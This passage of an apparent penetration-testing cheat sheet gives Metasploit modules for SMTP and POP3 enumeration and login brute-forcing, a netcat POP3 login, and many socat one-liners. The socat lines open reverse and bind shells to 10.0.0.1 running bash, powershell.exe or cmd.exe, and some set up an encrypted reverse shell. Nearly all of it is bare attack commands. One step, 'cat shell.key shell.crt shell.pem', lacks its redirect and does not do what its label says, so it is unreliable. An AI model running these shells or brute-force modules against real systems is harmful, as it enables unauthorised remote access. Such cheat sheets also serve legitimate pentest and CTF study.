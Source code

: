 ```
use auxiliary/scanner/smtp/smtp_version
use auxiliary/scanner/smtp/smtp_enum
```

### POP3
Connect to POP3 mail server
```
nc 10.0.0.1 110
USER admin
PASS password123
```
Enumerate pop3 login auth with metasploit
```
use auxiliary/scanner/pop3/pop3_login
```
Commands for POP3 mail server
```
stat -returns total number of messages and total size
list -list all mesages
retr [message] -retrieves the whole message
dele [message] - deletes the specified message
top [message] -returns the headers and number of lines from the message
rset -undelete the message if any marked for deletion
quit -logs out and save any changes
```

### Socat
Set up a stabilised shell listener
```
socat TCP-L:4444 FILE:`tty`,raw,echo=0
```
Connect back to the stabilised listener
```
socat TCP:10.0.0.1:4444 EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```
Set up a listener
```
socat TCP-L:4444 -
socat -d -d TCP4-LISTEN:4443 STDOUT
socat TCP-L:4444 EXEC:"bash -li"
socat -d -d TCP4-LISTEN:4443 EXEC:/bin/bash
socat TCP-L:4444 EXEC:powershell.exe,pipes
socat -d -d TCP4-LISTEN:4443 EXEC:'cmd.exe',pipes
```
Connect to a listening service
```
socat TCP:10.0.0.1:4444 EXEC:powershell.exe,pipes
socat TCP4:10.0.0.1:4443 EXEC:'cmd.exe',pipes
socat TCP:10.0.0.1:4444 EXEC:"bash -li"
socat TCP4:10.0.0.1:4443 EXEC:/bin/bash
socat TCP:10.0.0.1:4444 -
socat - TCP4:10.0.0.130:4443
```
#### Set up an encrypted reverse shell
Generate a certificate
```
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
```
Merge the 2 created files into .pem extension
```
cat shell.key shell.crt shell.pem
```
Set up listener on local machine
```
socat OPENSSL-LISTEN:4444,cert=shell.pem,verify=0
socat -d -d OPENSSL-LISTEN:4443,cert=bind.pem,verify=0,fork STDOUT
```